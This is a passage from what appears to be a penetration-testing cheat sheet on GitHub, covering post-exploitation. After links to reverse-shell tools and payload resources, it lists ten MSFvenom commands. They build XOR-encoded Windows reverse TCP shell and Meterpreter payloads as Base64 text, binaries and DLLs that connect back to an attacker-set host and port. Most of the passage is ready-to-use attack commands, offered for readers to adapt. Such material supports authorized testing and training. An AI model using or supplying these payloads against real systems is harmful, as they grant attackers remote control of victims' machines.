 Find out more about Java/JSP shells at [ivan-sincek/java-reverse-tcp](https://github.com/ivan-sincek/java-reverse-tcp).

### Send a Payload With Python

Find out how to generate a reverse shell payload for Python and send it to the target machine at [ivan-sincek/send-tcp-payload](https://github.com/ivan-sincek/send-tcp-payload).

## 4. Post Exploitation

### 4.1 Useful Websites

* [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
* [lolbas-project.github.io](https://lolbas-project.github.io)
* [gtfobins.github.io](https://gtfobins.github.io)

### Generate a Reverse Shell Payload for Windows OS

To generate a `Base64 encoded payload`, use one of the following MSFvenom commands, modify them to your need:

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff | base64 -w 0 > payload.txt

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff | base64 -w 0 > payload.txt

msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw | base64 -w 0 > payload.txt

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw | base64 -w 0 > payload.txt
```

To generate a `binary file`, use one of the following MSFvenom commands, modify them to your need:

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff -o payload.bin

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff -o payload.bin

msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -o payload.bin

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -o payload.bin
```

To generate a `DLL file`, use one of the following MSFvenom commands, modify them to your need:

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f dll -b \x00\x0a\x0d\xff -o payload.dll

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f dll -b \x00\x0a\x0d\xff -o payload.dll
```
